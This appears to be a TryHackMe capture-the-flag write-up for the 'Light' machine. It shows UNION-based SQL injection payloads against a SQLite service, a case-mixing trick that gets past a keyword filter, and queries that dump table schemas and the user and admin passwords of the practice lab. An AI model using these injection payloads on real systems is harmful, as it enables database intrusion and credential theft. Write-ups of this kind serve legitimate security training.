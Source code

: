 # TryHackMe - Light Machine Write-Up

## Overview

The **Light** machine on TryHackMe is a beginner-friendly challenge that involves SQL injection on a custom database service running on a remote port. The exploitation focuses on SQLite and classic UNION-based injection techniques to extract usernames, passwords, and the final flag.

---

## Target Information

- **IP Address**: `10.10.243.206`
- **Port**: `1337`
- **Service**: Custom database interface via `netcat`
- **Technology**: SQLite 3.31.1

---

## Phase 1: Initial Access

### Connection

No need for Nmap or scanning. The connection is opened directly using `netcat`:

```bash
nc 10.10.243.206 1337
```

You are greeted with:

```
Welcome to the Light database!
Please enter your username: 
```

### Default Credentials Attempt

Entering valid-looking credentials returns a password, but loops:

```
Username: smokey
Password: vYQ5ngPpw8AdUmL
```

This behavior hints at possible **SQL injection**.

---

## Phase 2: SQL Injection

### Injection Discovery

Trying the following reveals a SQL error, confirming injection is possible:

```
Input: admin'
Output: Error: unrecognized token: "'admin'' LIMIT 30"
```

### Bypassing Filters

Simple payloads were blocked, but case manipulation worked:

```sql
' UniOn SeLeCt 1 '
```

This indicates the input is filtered, but not normalized — SQL keywords can be obfuscated with case mixing.

---

## Phase 3: Database Enumeration

### Determine SQLite Version

```sql
' UniOn SeLeCt sqlite_version() '
```

**Output**:

```
Password: 3.31.1
```

---

### List Tables

Query the `sqlite_master` table:

```sql
' UniOn SeLeCt group_concat(sql) FROM sqlite_master '
```

**Output**:

```
Password: CREATE TABLE usertable (...), CREATE TABLE admintable (...)
```

**Identified Tables**:

- `usertable`
- `admintable`

---

## Phase 4: Data Extraction

### Extract Usernames

```sql
' UniOn SeLeCt group_concat(username) FROM usertable '
```

**Output**:

```
alice,rob,john,michael,smokey,hazel,ralph,steve
```

### Extract Passwords

Then query each user individually:

```sql
Username: alice
Password: tF8tj2o94WE4LKC

Username: rob
Password: yAn4fPaF2qpCKpR

Username: john
Password: e74tqwRh2oApPo6

Username: michael
Password: 7DV4dwA0g5FacRe

Username: hazel
Password: EcSuU35WlVipjXG

Username: ralph
Password: YO1U9O1m52aJImA

Username: steve
Password: WObjufHX1foR8d7
```

### Extract Admin Table

**Query Passwords**:

```sql
' UniOn SeLeCt group_concat(password) FROM admintable '
```

**Output**:

```
mamZtAuMlrsEy5bp6q17,THM{...........}
```

**Query Usernames**:

```sql
' UniOn SeLeCt group_concat(username) FROM admintable '
```

**Output**:

```
TryHackMeAdmin,flag
```

---

## Flags

- **User Flag**: `..........` (smokey's password)
- **Root/Admin Flag**: `THM{...........}`

---

## Conclusion

This machine demonstrated the power and simplicity of UNION-based SQL injection on a filtered SQLite interface. Obfuscating reserved words helped bypass filtering, and `sqlite_master` revealed the full DB structure.

---

## References

- [PayloadsAllTheThings - SQLite Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/SQLite%20Injection.md)
